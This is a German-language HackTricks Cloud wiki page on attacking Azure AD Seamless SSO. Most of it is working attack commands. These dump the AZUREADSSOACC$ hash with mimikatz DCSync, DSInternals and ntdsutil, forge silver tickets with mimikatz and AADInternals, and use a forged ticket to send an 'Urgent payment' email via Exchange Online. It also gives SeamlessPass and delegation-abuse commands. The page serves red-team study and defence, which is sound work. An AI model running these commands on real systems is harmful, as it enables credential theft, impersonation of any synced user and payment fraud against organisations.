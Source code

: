 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Grundinformationen

[Aus den Dokumenten:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) **meldet Benutzer automatisch an, wenn sie sich auf ihren Unternehmensgeräten** befinden, die mit Ihrem Unternehmensnetzwerk verbunden sind. Wenn aktiviert, **müssen Benutzer ihre Passwörter nicht eingeben, um sich bei Azure AD anzumelden**, und normalerweise auch nicht ihre Benutzernamen. Diese Funktion bietet Ihren Benutzern einfachen Zugriff auf Ihre cloudbasierten Anwendungen, ohne dass zusätzliche lokale Komponenten erforderlich sind.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

Im Grunde meldet Azure AD Seamless SSO **Benutzer an**, wenn sie sich **auf einem lokal verbundenen Domänen-PC** befinden.

Es wird sowohl von [**PHS (Password Hash Sync)**](phs-password-hash-sync.md) als auch von [**PTA (Pass-through Authentication)**](pta-pass-through-authentication.md) unterstützt.

Desktop-SSO verwendet **Kerberos** zur Authentifizierung. Wenn konfiguriert, erstellt Azure AD Connect ein **Computer-Konto namens AZUREADSSOACC`$`** in der lokalen AD. Das Passwort des `AZUREADSSOACC$`-Kontos wird **im Klartext an Azure AD gesendet** während der Konfiguration.

Die **Kerberos-Tickets** sind **verschlüsselt** mit dem **NTHash (MD4)** des Passworts, und Azure AD verwendet das gesendete Passwort, um die Tickets zu entschlüsseln.

**Azure AD** stellt einen **Endpunkt** (https://autologon.microsoftazuread-sso.com) zur Verfügung, der Kerberos **Tickets** akzeptiert. Der Browser des domänenverbundenen Geräts leitet die Tickets an diesen Endpunkt für SSO weiter.

### On-prem -> cloud

Das **Passwort** des Benutzers **`AZUREADSSOACC$` ändert sich niemals**. Daher könnte ein Domänenadministrator den **Hash dieses Kontos** kompromittieren und ihn dann verwenden, um **silberne Tickets** zu erstellen, um sich mit **jedem synchronisierten lokalen Benutzer** bei Azure zu verbinden:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Mit dem Hash können Sie jetzt **silberne Tickets generieren**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Um das Silver Ticket zu nutzen, sollten die folgenden Schritte ausgeführt werden:

1. **Browser starten:** Mozilla Firefox sollte gestartet werden.
2. **Browser konfigurieren:**
* Navigieren Sie zu **`about:config`**.
* Setzen Sie die Präferenz für [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) auf die angegebenen [Werte](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **Zugriff auf die Webanwendung:**
* Besuchen Sie eine Webanwendung, die mit der AAD-Domain der Organisation integriert ist. Ein häufiges Beispiel ist [Office 365](https://portal.office.com/).
4. **Authentifizierungsprozess:**
* Geben Sie auf dem Anmeldebildschirm den Benutzernamen ein und lassen Sie das Passwortfeld leer.
* Um fortzufahren, drücken Sie entweder TAB oder ENTER.

{% hint style="success" %}
Dies umgeht MFA nicht, wenn es aktiviert ist
{% endhint %}

#### Option 2 ohne dcsync - SeamlessPass

Es ist auch möglich, diesen Angriff **ohne einen dcsync-Angriff** durchzuführen, um stealthier zu sein, wie [in diesem Blogbeitrag erklärt](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/). Dafür benötigen Sie nur eines der folgenden:

* **TGT eines kompromittierten Benutzers:** Selbst wenn Sie keinen haben, aber der Benutzer kompromittiert wurde, können Sie einen mit dem Fake-TGT-Delegationstrick erhalten, der in vielen Tools wie [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) und [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9) implementiert ist.
* **Golden Ticket**: Wenn Sie den KRBTGT-Schlüssel haben, können Sie das TGT erstellen, das Sie für den angegriffenen Benutzer benötigen.
* **NTLM-Hash oder AES-Schlüssel eines kompromittierten Benutzers:** SeamlessPass kommuniziert mit dem Domänencontroller mit diesen Informationen, um das TGT zu generieren.
* **AZUREADSSOACC$-Konto NTLM-Hash oder AES-Schlüssel:** Mit diesen Informationen und der Sicherheitskennung (SID) des Benutzers, den Sie angreifen möchten, ist es möglich, ein Serviceticket zu erstellen und sich mit der Cloud zu authentifizieren (wie im vorherigen Verfahren durchgeführt).

Schließlich ist es mit dem TGT möglich, das Tool [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) zu verwenden mit:

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

Weitere Informationen zur Konfiguration von Firefox für die Verwendung mit nahtlosem SSO sind [**in diesem Blogbeitrag**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/) zu finden.

#### ~~Erstellen von Kerberos-Tickets für Cloud-nur-Benutzer~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Wenn die Active Directory-Administratoren Zugriff auf Azure AD Connect haben, können sie **SID für jeden Cloud-Benutzer festlegen**. Auf diese Weise können Kerberos **Tickets** **auch für Cloud-nur-Benutzer erstellt werden**. Die einzige Voraussetzung ist, dass die SID eine gültige [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) ist.

{% hint style="danger" %}
Das Ändern der SID von Cloud-nur-Admin-Benutzern ist jetzt **von Microsoft blockiert**.\
Für Informationen siehe [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud über ressourcenbasierte eingeschränkte Delegation <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Jeder, der Computer-Konten (`AZUREADSSOACC$`) im Container oder in der OU, in der sich dieses Konto befindet, verwalten kann, kann **eine ressourcenbasierte eingeschränkte Delegation über das Konto konfigurieren und darauf zugreifen**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Referenzen

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Ich bin in deiner Cloud und lese die E-Mails aller - Hacking Azure AD über Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
